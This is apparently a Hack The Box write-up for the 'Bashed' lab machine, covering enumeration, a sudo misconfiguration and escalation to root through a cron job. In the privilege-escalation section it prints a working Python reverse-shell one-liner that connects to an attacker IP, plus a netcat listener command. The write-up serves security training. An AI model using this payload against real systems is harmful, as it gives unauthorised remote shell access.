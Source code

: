 # Bashed

URL: https://app.hackthebox.com/machines/Bashed

Level: Easy

Date 5 Jun 2020

## Walkthrough

- [Enumeration](#enumeration)
- [User flag](#user-flag)
- [Privesc](#privesc)

# Enumeration

## NMAP

```
# Nmap 7.80 scan initiated Fri Jun  5 22:22:34 2020 as: nmap -T4 -A -p- -oN Bashed_nmap.txt 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.049s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=6/5%OT=80%CT=1%CU=33366%PV=Y%DS=2%DC=T%G=Y%TM=5EDAA9CC
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   57.76 ms 10.10.14.1
2   57.97 ms 10.10.10.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun  5 22:23:40 2020 -- 1 IP address (1 host up) scanned in 67.29 seconds
```

We run `dirbuster` and we found /php folder.

## User-flag

User flag is easily found in /home/arrexel.

```
 www-data@bashed
:/home/arrexel# cat user.txt

2c281f318555dbc1b856957c7147bfc1
```

## Privesc

We try some easy privesc techniques:

```
:/home/arrexel# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

It is an indication that we probably need to impersonate "scriptmanager" user:

```
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$
```

On / we found something unusual ("scripts" folder):

```
drwxr-xr-x  19 root          root           4240 Jun 29 12:43 dev
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 122 root          root              0 Jun 29 12:43 proc
drwx------   3 root          root           4096 Dec  4  2017 root
drwxr-xr-x  18 root          root            500 Jun 29 12:43 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Jun 29 13:24 sys
drwxrwxrwt  10 root          root           4096 Jun 29 13:25 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

```
  scriptmanager@bashed:/scripts$ ls -l
ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Jun 29 13:25 test.txt
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

By looking at "test.txt" timestamp, we can assume that there is some cronjob.

We simply need to replace `test.py` with some python reverse shell:

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```
scriptmanager@bashed:/scripts$ cat > test.py

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.36",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

We spawn a netcat listener:

```
nc -nlvp 1234
```

and we wait for our root shell.

